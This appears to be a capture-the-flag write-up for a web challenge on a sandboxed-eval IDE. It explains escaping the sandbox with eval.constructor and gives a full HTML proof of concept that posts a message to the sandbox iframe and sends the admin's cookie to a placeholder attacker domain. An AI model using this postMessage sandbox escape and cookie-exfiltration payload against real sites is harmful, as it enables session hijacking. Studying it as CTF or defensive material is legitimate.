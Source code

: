 ```js
  const safeEval = (d) => (function (data) {
    with (new Proxy(window, {
      get: (t, p) => {
        if (p === 'console') return { log };
        if (p === 'eval') return window.eval;
        return undefined;
      }
    })) {
      eval(data);
    }
  }).call(Object.create(null), d);
  ```
  
  The page is listening for a postmessage , once received it execute safeEval function that is acting as a proxy, we can see that entering eval will return window.eval so what about using **eval's constructor** to execute our js code freely: ```eval.constructor("console.log(1);")()``` will print 1 in the console so our code is executed. We need now to get the cookie from /ide path since the admin cookie's path is set like the following
  ```
{
        path: '/ide',
        sameSite: 'none',
        secure: true
}
  ```
For this i used window.open in order to open https://web-ide.dicec.tf/ide/ and access the dom from the window reference , this is only possible because we are not violating the same origin policy and opening the window from the same origin .
Let's wrap the things up now, we will create a webpage that when the admin visits it, we will send a postmessage to the sandbox ( that's why you have to check the origin when you are using postmessages ) and open a window of https://web-ide.dicec.tf/ide/ and send the cookie to our controlled website. The final payload code :

```html
<html>
<head>
    <title>PoC</title>
</head>
<body>
<iframe id="vuln" src="https://web-ide.dicec.tf/sandbox.html"></iframe>
<script>
setTimeout(
()=>{document.getElementById("vuln").contentWindow.postMessage("eval.constructor(\"var w=window.open('https://web-ide.dicec.tf/ide/');setTimeout(()=>{window.location='https://<Your-Domain>?a='+btoa(w.document.cookie);},2000);\")();","*")}
,2000);
</script>
</body>
</html>

```
We only have to host this page on our server and send the link to the admin bot . This was an unintended solution , the intended one is abusing service workers and navigator.sendBeacon in order to steal the cookie , you can check more details **[HERE]( https://discord.com/channels/805956008665022475/808122408019165204/808143656946368512)** .
